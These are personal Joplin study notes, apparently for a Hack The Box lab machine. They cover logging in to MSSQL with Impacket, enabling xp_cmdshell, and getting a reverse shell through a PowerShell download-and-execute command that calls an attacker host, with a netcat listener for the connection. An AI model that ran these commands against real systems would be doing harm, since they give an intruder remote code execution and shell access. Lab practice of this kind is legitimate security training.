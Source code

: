 MSSQL

Use Impacket's MsSqlClient

> python3 ~/tools/mssqlclient.py ARCHTYPE\\sql_svc@10.10.10.27 -windows-auth

![fafd8448ff9800ed403b3eefff19de4a.png](:/1d9b3a8fc97549efb76c3e7e6d63d908).

[MSSQL Injection Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

- First Enable xp_cmdshell and do an execution of the command to check if the shell is working

> enable\_xp\_cmdshell;
> 
> EXEC xp_cmdshell whoami

- Then, attempt to get a reverse shell

> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.119.206/Invoke-PowerShellTcp.ps1") | powershell -noprofile'
> 
> \# Make sure to have the command Invoke-PowerShellTcp called in the script with the LHOST and LPORT defined
> 
> sudo nc -nlvp 433

id: 8aca581f7ef7448c9a0318ef9848fb51
parent_id: 17338627f6dc4ef4856d44508b33e0b1
created_time: 2022-01-16T06:34:19.142Z
updated_time: 2022-04-29T10:14:56.696Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-16T06:34:19.142Z
user_updated_time: 2022-04-29T10:14:56.696Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1